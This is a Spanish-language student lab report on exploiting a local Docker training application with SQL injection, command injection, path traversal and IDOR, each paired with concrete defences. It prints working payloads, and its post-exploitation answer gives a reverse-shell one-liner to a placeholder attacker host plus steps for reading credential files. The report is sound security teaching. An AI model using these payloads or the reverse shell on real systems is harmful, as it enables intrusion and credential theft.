

# Informe — Laboratorio 07 · Explotación

**Grupo:** 04 · **Integrantes:** *(completar nombres — usuarios GitHub)* · **Fecha:** 2026-10-16

---

## 0. Declaración de uso de IA

Se utilizó Claude (Anthropic) como asistente para la redacción del informe y el análisis conceptual. Los exploits fueron ejecutados manualmente por el grupo contra el entorno Docker local de PhantomCorp.

---

## Tabla de explotación

| Vuln | Payload usado | Consulta/comando/ruta resultante | Impacto | Defensa concreta |
|------|--------------|----------------------------------|---------|-----------------|
| SQLi auth (R1) | `admin' --` en campo user | `SELECT user, rol FROM users WHERE user='admin' --' AND pass='...'` | Acceso como admin sin conocer la contraseña → `FLAG{sqli_auth_bypass}` | Consultas parametrizadas: `WHERE user=? AND pass=?` con valores separados |
| SQLi UNION (R2) | `x' UNION SELECT clave, valor FROM secrets-- -` | `SELECT nombre, precio FROM productos WHERE nombre LIKE '%x' UNION SELECT clave, valor FROM secrets-- -%'` | Exfiltración completa de la tabla secrets → `FLAG{sqli_union_dump}` | Consultas parametrizadas + principio de mínimo privilegio en la DB |
| Command injection (R3) | `127.0.0.1; cat /app/flags/cmdi.txt` | `ping -c1 127.0.0.1; cat /app/flags/cmdi.txt` | Ejecución de comandos arbitrarios en el servidor (RCE) → `FLAG{command_injection_rce}` | Lista blanca de IPs/hosts válidos; nunca concatenar input en comandos de shell; usar APIs del sistema operativo en lugar de shell |
| Path traversal (R4) | `../flags/lfi.txt` | `open("public/../flags/lfi.txt")` | Lectura de archivos fuera del directorio público → `FLAG{path_traversal_lfi}` | Resolver la ruta con `os.path.realpath()` y verificar que empiece con el directorio permitido; nunca concatenar input en rutas |
| IDOR (R5) | `id=1` (siendo usuario id=3) | `GET /perfil?id=1` | Acceso a datos del perfil admin sin autorización → `FLAG{idor_broken_access}` | Verificar en el servidor que `session.user_id == id` antes de devolver el perfil; nunca confiar en el parámetro de la URL |

---

## Preguntas de análisis

### P1 — ¿Por qué funciona el bypass de R1? ¿Qué hace exactamente el `--`?

La consulta original que ejecuta el servidor es:

```sql
SELECT user, rol FROM users WHERE user='<input_user>' AND pass='<input_pass>'
```

Cuando se ingresa `admin' --` como usuario, el servidor construye el string por concatenación directa:

```sql
SELECT user, rol FROM users WHERE user='admin' --' AND pass='cualquiercosa'
```

El apóstrofe `'` luego de `admin` **cierra el literal de string** que había abierto el servidor para el campo `user`. A partir de ese punto, `--` es un comentario en SQL (equivalente a `//` en otros lenguajes): **todo lo que viene después es ignorado por el motor de base de datos**, incluyendo `AND pass='...'`. La consulta queda reducida a `SELECT user, rol FROM users WHERE user='admin'`, que devuelve la fila del admin sin verificar la contraseña en absoluto. El dato del usuario se convirtió en código SQL.

---

### P2 — ¿Por qué el UNION necesita el mismo número de columnas? ¿Cómo lo averiguarías si no supieras que son dos?

Un `UNION` en SQL concatena verticalmente los resultados de dos `SELECT`. Para que esto sea válido, ambas consultas deben devolver **el mismo número de columnas** (y tipos compatibles), porque el motor tiene que poder armar filas uniformes para el resultado conjunto. Si los números no coinciden, el motor lanza un error de sintaxis.

**Si no se supiera que son dos columnas**, el procedimiento estándar es probar incrementalmente con valores literales:

```sql
' UNION SELECT 1--           -- error: columna 1 ≠ 2
' UNION SELECT 1,2--         -- OK: son exactamente 2 columnas
' UNION SELECT 1,2,3--       -- error: columna 1 ≠ 3
```

Cuando el servidor deja de devolver error y muestra resultados, ese es el número correcto. El enunciado menciona que el servidor es verboso con los errores SQL, lo que hace esto trivial: cada error confirma o descarta una cantidad.

---

### P3 — Tras el R3 (RCE), ¿qué haría un atacante real? (persistencia)

Con ejecución de comandos en el servidor, los pasos típicos de post-explotación son:

1. **Reconocimiento interno:** `id`, `whoami`, `cat /etc/passwd`, `env` para entender el contexto (qué usuario, qué variables de entorno, qué servicios corren).
2. **Extracción de credenciales:** leer archivos de configuración (`/app/config.py`, `.env`, archivos de conexión a DB) que suelen contener passwords de base de datos, claves de API y secretos.
3. **Establecer persistencia:** instalar una reverse shell o un web shell para mantener acceso aunque la sesión actual se corte. Ejemplo: `; bash -i >& /dev/tcp/attacker_ip/4444 0>&1`.
4. **Escalada de privilegios:** si el proceso corre como usuario limitado, buscar misconfiguraciones (SUID binaries, sudo mal configurado, servicios vulnerables) para llegar a root.
5. **Movimiento lateral:** desde el servidor comprometido, atacar otros servicios internos de la red que no eran accesibles desde afuera (bases de datos, servicios internos, otras máquinas).

El Lab 08 de persistencia cubre exactamente los pasos 3 y 4.

---

### P4 — ¿Por qué las consultas parametrizadas matan la inyección de raíz?

En una consulta concatenada, el servidor arma un único string que mezcla código SQL y datos del usuario, y el motor de base de datos los interpreta juntos sin distinguir cuál es cuál. Ahí es donde ocurre la inyección.

Con consultas parametrizadas (también llamadas prepared statements), el código SQL y los datos **viajan por separado** al motor:

```python
# Concatenación (vulnerable):
query = f"SELECT * FROM users WHERE user='{user}' AND pass='{pass}'"

# Parametrizado (seguro):
cursor.execute("SELECT * FROM users WHERE user=? AND pass=?", (user, pass))
```

El motor de base de datos recibe primero la estructura de la consulta (con `?` como marcadores), la compila y optimiza. Luego recibe los valores como **datos puros**, no como SQL. Si el usuario escribe `admin' --`, eso llega al motor como el literal de texto `admin' --` buscado en la columna `user`, sin que los caracteres `'` y `--` tengan ningún significado especial. La frontera entre código y datos es estructural e inviolable.

---

### P5 — ¿Por qué el control de acceso no puede depender de que el cliente "no cambie el id"?

Porque el cliente (navegador, curl, Burp Suite, cualquier herramienta HTTP) tiene **control total** sobre los parámetros que envía. Un parámetro en la URL como `?id=3` es texto plano que cualquier usuario puede modificar trivialmente sin ningún conocimiento técnico avanzado.

La aplicación del R5 cometió el error de asumir que si el usuario inicia sesión y recibe un link a `/perfil?id=3`, nunca va a intentar pedir `/perfil?id=1`. Esa suposición es incorrecta: no hay nada que impida modificar el número en la URL.

**La verificación tiene que estar en el servidor**, que es el único punto bajo control de la aplicación:

```python
# MAL (IDOR): devuelve el perfil sin verificar quién lo pide
def perfil(id):
    return db.query("SELECT * FROM usuarios WHERE id=?", id)

# BIEN: verifica que el perfil solicitado sea el del usuario autenticado
def perfil(id, session):
    if session.user_id != id and not session.is_admin:
        return 403  # Forbidden
    return db.query("SELECT * FROM usuarios WHERE id=?", id)
```

El principio es: **el servidor nunca puede confiar en ningún valor que venga del cliente** para tomar decisiones de autorización. La sesión autenticada (que vive en el servidor) es la única fuente de verdad.

---

## Captura de estado final

```
  ╭────────────────────────────────────────────────────────────╮
  │                     PROGRESO · LAB 07                      │
  ╰────────────────────────────────────────────────────────────╯

   ✓  R1     SQLi - bypass de autenticacion
   ✓  R2     SQLi - extraccion de datos con UNION
   ✓  R3     Inyeccion de comandos (RCE)
   ✓  R4     Path traversal / LFI
   ✓  R5     IDOR - control de acceso roto

  ██████████████████████████████  5/5 (100%)

[ OK ] ¡Lab 07 COMPLETO!
```

---

## research.md

*(Completar con notas adicionales de investigación si se requiere)*